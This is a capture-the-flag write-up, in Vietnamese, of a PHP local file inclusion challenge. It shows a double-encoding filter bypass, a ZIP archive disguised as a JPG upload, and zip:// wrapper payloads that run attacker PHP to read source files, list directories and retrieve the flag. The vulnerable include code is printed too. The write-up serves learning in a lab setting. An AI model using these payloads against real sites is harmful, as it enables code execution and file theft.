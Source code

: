 # Local File Inclusion - Wrappers

**40 Points** 

**Title**

Abbreviated LFI

**Statement**

Retrieve the flag.

## Analysis:

Website thực hiện upload và hiển thị ảnh:


<p align="center"><img src="images/upload.png"></p>

Đây là một bài LFI nên ta thử fuzzy các tham số URL. Test với biến `page`, input `..`, ta thấy bị filter (thông báo "Attack Detected"). Thử url-encode thì cũng bị lọc. Thử tiếp với double-encoding thì OK. Input: `%252e%252e`

![image](images/double-encode.png)


Cảnh báo lỗi vì không tìm thấy file `%2e%2e.php`. Trước mắt, chúng ta biết được trang web dùng file `upload.php` (lúc mới vào trang thì `page=upload`), nên thử xem nội dung file này. Sử dụng PHP Wrappers Filter, payload `php://convert.base64-encode/resource=upload` và chuyển sang double-encoding:

```
php:%252f%252fconvert%252ebase64-encode%252fresource=upload
```

Tiếp tục bị filter, sau một hồi phân tích ta có bộ lọc sau:

Filter:  `..` `%2f` `php`

Sau một hồi tìm kiếm giải pháp, ta biết được trong ngữ cảnh upload file như thế này có một loại Wrapper được sử dụng là `zip://` ([Compression Wrappers](https://www.php.net/manual/en/wrappers.compression.php)). Wrapper này sẽ unzip file và mở luồng (stream) để đọc/ghi file. Đồng thời, hãy nhớ rằng giá trị của `page` sẽ được nối chuỗi với `.php`, vì vậy ta chỉ có thể tạo code PHP. Như vậy, với tính năng này ta có thể tạo một mã code PHP và nén lại dưới định dạng ZIP và đổi đuôi thành .JPG (vì site chỉ cho mình upload định dạng JPG). Việc này không ảnh hưởng đến quá trình unzip, vì dù đổi đuôi file nhưng [signature](https://en.wikipedia.org/wiki/List_of_file_signatures) của file trong header vẫn là một định dạng ZIP hợp lệ.

Cách sử dụng:

```
zip://archive.zip#dir/file.txt
```
Với `archive.zip` là file cần được giải nén. Sau dấu `#` là đường dẫn đến file cụ thể cần được lấy ra 

Với việc sử dụng Wrapper, ta phải cần biết đường dẫn của file. Trang web sẽ output hình ảnh cho ta thấy nên ta có thể lấy thông tin này trong source code (Ctrl + U). Ví dụ, khi upload một file bất kỳ thành công:

<p align="center"><img src="images/path.png"></p>

Code PHP:

```php
<?php
    echo "khangtictoc";
?>
```

Lưu vào file `solve.php` -> (Nén thành file ZIP) -> `solve.zip` -> (Đổi đuôi) -> `solve.jpg`

Upload lên server:

<p align="center"><img src="images/upload_code.png"></p>

Hình ảnh sẽ không hiện ra. Of course :)), file upload lên là file zip (nhưng mà đuôi là .png). Vậy mình sẽ lấy đường dẫn file trên và đọc file ra trong source code là `tmp/upload/tp26d9uqM.jpg`. 

> NOTE: Lưu ý loại wrapper này cho phép unzip file ra và thực thi(render) đoạn code 

Payload: (Convert `#` thành `%23` nếu không thì URL sẽ bị hiểu nhầm đi tới internal link `#solve` của page)

```
zip://tmp/upload/tp26d9uqM.jpg%23solve
```

<p align="center"><img src="images/long_path.png"></p>

Nhưng mà path name lại bị quá dài :<< . Cố để path name ngắn nhất có thể thử, rename `solve.php` thành `a.php` rồi thực hiện các bước tương tự như trên. Payload trong trường hợp của mình:

```
zip://tmp/upload/r6LpKOMlo.jpg%23a
```

<p align="center"><img src="images/result1.png"></p>

Vậy là mình đã thực thi được code PHP. Giờ thì dùng sự sáng tạo để lấy flag thôi :> . Thử đọc file `index.php` (file source của challenge trang hiện tại) và thực hiện tương tự:

```php
<?php
    echo file_get_contents("index.php");
?>
```

Ta lấy được full source code nhưng không có flag hay thông tin liên quan:

```php
<?php
@$p = $_REQUEST['page'];
$t=preg_match("/index/i",$p);
if($p != "" && $t == 0)
{
$haq = "<br /><br /><strong>Attack detected</strong>";

if(strstr($p,"..") !== FALSE)
die("<pre>$haq</pre>");

if(stristr($p,"http") !== FALSE)
die("<pre>$haq</pre>");

if(stristr($p,"ftp") !== FALSE)
die("<pre>$haq</pre>");

if(stristr($p,"php") !== FALSE)
die("<pre>$haq</pre>");

if(strlen($p) > 33)
die("<pre>page name too long</pre>");

if(isset($p))
$inc = sprintf("%s.php",$p);


if(isset($inc))
	include($inc);
}
?>
```

Ta thử liệt kê các file trong đường dẫn hiện tại xem có file flag hay không (chỉ đoán thôi, chứ liệt kê hết cả hệ thống thì lâu lắm). Dùng [scandir](https://www.php.net/manual/en/function.scandir.php)

```php
<?php
print_r(scandir("."));
?>
```
> NOTE: scandir trả về một mảng (associative_array)

<p align="center"><img src="images/result2.png"></p>

Ta thấy có file `flag-mipkBswUppqwXlq9ZydO.php`, đọc file này ra:

```php
<?php
    echo file_get_contents("flag-mipkBswUppqwXlq9ZydO.php");
?>
```

Nội dung trong file render ra không có gì hết. Vô source code kiểm tra :

<p align="center"><img src="images/flag.png"></p>

Flag: ****